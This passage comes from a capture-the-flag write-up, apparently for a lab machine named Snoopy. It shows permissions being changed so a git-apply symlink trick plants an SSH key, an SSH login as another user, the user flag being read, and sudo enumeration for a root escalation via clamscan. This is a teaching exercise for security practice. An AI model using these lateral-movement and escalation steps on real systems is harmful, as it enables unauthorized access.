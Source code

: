 The `warning` is important to notice here. It’s trying to “unlink” `symlink` and failing. That’s because sbrown doesn’t have permissions to. The directory is owned by cbrown, and all users can’t write to it:

```

cbrown@snoopy:/dev/shm$ ls -l
total 0
drwxrwxr-x 3 cbrown cbrown 100 May 10 16:27 poc
drwxrwxr-x 3 cbrown cbrown 100 May 10 16:32 ssh

```

If I change the permissions on the dir such that all users can write, it works without error:

```

cbrown@snoopy:/dev/shm$ chmod 777 ssh/
cbrown@snoopy:/dev/shm$ cd ssh/
cbrown@snoopy:/dev/shm/ssh$ sudo -u sbrown git apply patch
cbrown@snoopy:/dev/shm/ssh$

```

### SSH

With my key in place, I can SSH into the box as sbrown:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen sbrown@snoopy.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)
...[snip]...
sbrown@snoopy:~$

```

And get `user.txt`:

```

sbrown@snoopy:~$ cat user.txt
f1790bcd************************

```

## Shell as root

### Enumeration

sbrown can run `clamscan` in a specific way as root using `sudo`:

```

sbrown@snoopy:~$ sudo -l
Matching Defaults entries for sbrown on snoopy:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User sbrown may run the following commands on snoopy:
    (root) NOPASSWD: /usr/local/bin/clamscan ^--debug /home/sbrown/scanfiles/[a-zA-Z0-9.]+$

```
